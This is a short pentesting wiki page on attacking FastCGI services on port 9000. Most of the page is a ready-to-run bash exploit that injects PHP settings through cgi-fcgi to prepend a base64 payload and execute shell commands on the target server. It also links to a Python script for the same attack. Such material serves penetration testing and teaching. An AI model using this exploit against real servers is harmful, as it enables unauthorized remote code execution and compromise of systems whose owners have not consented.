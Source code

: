 # 9000 Pentesting FastCGI


## Basic Information

If you want to **learn what is FastCGI** check the following page:

[[pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass/disable_functions-bypass-php-fpm-fastcgi.md]]

By default **FastCGI** run in **port** **9000** and isn't recognized by nmap. **Usually** FastCGI only listen in **localhost**.

## RCE

It's quite easy to make FastCGI execute arbitrary code:

```bash
#!/bin/bash

PAYLOAD="<?php echo '<!--'; system('whoami'); echo '-->';"
FILENAMES="/var/www/public/index.php" # Exisiting file path

HOST=$1
B64=$(echo "$PAYLOAD"|base64)

for FN in $FILENAMES; do
    OUTPUT=$(mktemp)
    env -i \
      PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \
      SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \
      cgi-fcgi -bind -connect $HOST:9000 &> $OUTPUT

    cat $OUTPUT
done
```
```
or you can also use the following python script: [[https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75|https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75]]



